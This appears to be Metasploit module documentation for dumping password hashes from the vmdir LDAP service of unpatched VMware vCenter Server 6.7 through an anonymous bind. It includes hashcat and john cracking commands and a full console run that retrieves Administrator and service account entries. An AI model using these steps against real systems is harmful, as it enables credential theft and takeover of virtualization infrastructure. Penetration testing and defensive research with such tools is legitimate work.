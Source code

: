 ## Vulnerable Application

### Description

This module uses an anonymous-bind LDAP connection to dump password
hashes from the vmdir service in VMware vCenter Server version 6.7
prior to the 6.7U3f update.
For password cracking use:
```
hashcat -a 3 -m 1710 --user OUTPUT_HASHCAT_FILE
john -format='dynamic=sha512($p.$s)' OUTPUT_JOHN_FILE
```

### Setup

Tested in the wild. No setup notes available at this time, as setup will
be specific to target environment.

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Actions

### Dump

Dump all LDAP password hashes (userPassword attribute) from the vCenter Server.

## Options

### BASE_DN

If you already have the LDAP base DN, you may set it in this option.

### ConnectTimeout

You may configure the timeout for LDAP connects if necessary. The
default is 10.0 seconds and should be more than sufficient.

## Scenarios

### VMware vCenter Server 6.7 virtual appliance on ESXi

```
msf5 > use auxiliary/gather/vmware_vcenter_vmdir_ldap_dump_hashes

msf5 auxiliary(auxiliary/gather/vmware_vcenter_vmdir_ldap_dump_hashes) > set rhosts [redacted]
rhosts => [redacted]
Module options (auxiliary/gather/vmware_vcenter_vmdir_ldap_dump_hashes):

   Name                 Current Setting    Required  Description
   ----                 ---------------    --------  -----------
   BASE_DN                                 no        LDAP base DN if you already have it
   OUTPUT_HASHCAT_FILE  vmdir_hashcat.txt  no        Save captured password hashes in hashcat format
   OUTPUT_JOHN_FILE     vmdir_john.txt     no        Save captured password hashes in john the ripper format
   RHOSTS               [redacted]         yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                389                yes       The target port

msf5 auxiliary(gather/vmware_vcenter_vmdir_ldap_dump_hashes) > run
[*] Running module against [redacted]

[*] Discovering base DN automatically
[*] Searching root DSE for base DN
[+] Discovered base DN: dc=vsphere,dc=local
[*] Dumping LDAP passwords from vmdir service at [redacted]:389
[+] [redacted]:389 cn=[redacted],ou=Domain Controllers,dc=vsphere,dc=local:[redacted]
[+] [redacted]:389 cn=Administrator,cn=Users,dc=vsphere,dc=local:[redacted]
[+] [redacted]:389 cn=vmca/[redacted]@VSPHERE.LOCAL,cn=Managed Service Accounts,dc=vsphere,dc=local:[redacted]
[+] [redacted]:389 cn=ldap/[redacted]@VSPHERE.LOCAL,cn=Managed Service Accounts,dc=vsphere,dc=local:[redacted]
[+] [redacted]:389 cn=host/[redacted]@VSPHERE.LOCAL,cn=Managed Service Accounts,dc=vsphere,dc=local:[redacted]
[*] Storing LDAP data in loot
[+] Saved LDAP data to /root/.msf4/loot/20200719171845_default_[redacted]_VMwarevCenterS_850962.txt
[*] Auxiliary module execution completed
msf5 auxiliary(gather/vmware_vcenter_vmdir_ldap_dump_hashes) >
```
